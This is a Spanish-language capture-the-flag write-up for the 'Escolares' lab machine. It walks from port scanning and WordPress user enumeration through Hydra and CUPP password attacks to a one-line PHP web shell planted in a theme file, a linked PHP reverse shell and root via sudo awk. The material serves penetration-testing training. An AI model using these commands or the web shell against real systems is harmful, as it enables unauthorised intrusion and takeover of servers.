 ```yaml
---
description: '✍️ Autor: Luisillo_o🔍 Dificultad: Fácil  📅 Fecha de creación: 09/06/2024'
---
```


# Escolares

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Se ingresó la dirección IP en el navegador, lo que llevó a que la página web sobre una universidad de ciberseguridad.

<figure><img src="../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

De primeras, no se nos muestra nada, por lo que revisamos el código fuente por si hay alguna información oculta relevante.

<figure><img src="../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

Se nos muestra un comentario que parece ser relevante ya que la información del personal académico está en el directorio `/profesores.html` por lo que accedemos a él.

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de **Luis** ya que pone que es el **admin** de Wordpress.

Ahora, buscamos directorios con la herramienta **Gobuster** a través del comando:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

Hemos localizado la ruta que necesitábamos, ahora utilizaremos **WPscan** para identificar la versión específica de WordPress y enumerar los usuarios, con el fin de confirmar los hallazgos anteriores.

```bash
wpscan --url http://172.17.0.2/wordpress/ -e u
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado la existencia del usuario **luisillo** en el WordPress. Ahora, procederemos a utilizar Hydra para realizar un ataque de fuerza bruta contra este usuario

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l luisillo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. No tenemos suerte por lo que probaremos otra cosa.

Para obtener la contraseña del usuario, utilizaremos la herramienta **CUPP** (Common User Passwords Profiler), que no viene preinstalada en Kali Linux. CUPP está diseñada para generar listas de contraseñas personalizadas basadas en la información específica del usuario objetivo. Esto es útil porque muchos usuarios suelen crear contraseñas utilizando datos personales, como su nombre, fecha de nacimiento o el nombre de su mascota, en lugar de contraseñas genéricas.

Una vez que hemos instalado CUPP, ejecutamos el siguiente comando en la terminal para iniciarlo en modo interactivo:

```bash
cupp -i
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Con la lista de contraseñas generada, estamos preparados para llevar a cabo el ataque de fuerza bruta y tratar de obtener credenciales válidas.

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

La contraseña del usuario **luisillo** es **Luis1981**. Probamos las credenciales en el formulario del Wordpress.

> Nota: si nos da error [http://172.17.0.2/wordpress/wp-login.php](http://172.17.0.2/wordpress/wp-login.php) se debe añadir el dominio a /etc/hosts es decir, añadir 172.17.0.2 escolares.dl y reiniciar la página.

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Nos deja entrar cuando quitamos el bloqueo de las cookies.

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

Accede al archivo `index.php` en la ruta `wp-content/themes/twentytwentytwo/` de tu instalación de WordPress y modifica el archivo con el siguiente código PHP:

```markdown
<?php echo "<pre>". shell_exec($_REQUEST['cmd']). "</pre>" ?>
```

Luego, abre tu navegador y accede a la siguiente URL para ejecutar comandos:

```ruby
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=whoami
```

Al ejecutar el comando `whoami`, deberías ver el resultado en la página, que indicará el usuario bajo el cual se está ejecutando el servidor web que es `www-data`. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse **shell** utilizando la página web por lo que subimos este archivo PHP [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

```
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/reverse.php
```

Después de ejecutar el comando codificado en la URL, la página puede quedarse cargando indefinidamente. Esto indica que la solicitud está en proceso, pero no necesariamente significa que ha fallado.

Nos ponemos en escucha por el puerto 443:

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root** ya que somos www-data como se mostraba anteriormente.

Para facilitar la interacción con la **shell**, migraremos a una sesión de **bash** más funcional. Esto es necesario porque en la **shell** actual no podemos utilizar las teclas de flecha ni acceder al historial de comandos. Ejecutando el siguiente comando, iniciamos una nueva sesión de bash sin registrar la actividad en ningún archivo:

```bash
script /dev/null -c bash
```

Estamos ejecutando comandos como el usuario `www-data`, lo que significa que nuestros permisos son limitados. Sin embargo, podemos intentar explorar el directorio `/home` para ver si encontramos algo interesante. Al revisar el contenido de `/home`, además de los directorios de usuarios, encontramos un archivo llamado `secret.txt`. Este archivo contiene la contraseña de un usuario llamado **Luisillo**, lo que podría ser útil para obtener acceso adicional.&#x20;

<figure><img src="../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

Nos conectamos al sistema como el usuario **Luisillo**. Ahora que tenemos acceso como un usuario normal, navegamos a su carpeta personal y listamos el contenido, pero no encontramos nada relevante. Sin embargo, al ejecutar `sudo -l`, descubrimos que podemos elevar privilegios utilizando el binario `awk`.

<figure><img src="../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

Visitamos la página de **GFTOBins** para buscar una forma de escalar privilegios usando el binario `awk`. En la sección correspondiente a `awk` bajo el contexto de `sudo`, encontramos el comando que nos permitirá abusar de este binario para obtener privilegios de **root**. Puedes revisar los detalles en el siguiente enlace:

[GFTOBins - awk (sudo)](https://gtfobins.github.io/gtfobins/awk/#sudo)

Tras eso, ponemos:

```bash
whoami
```

y ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
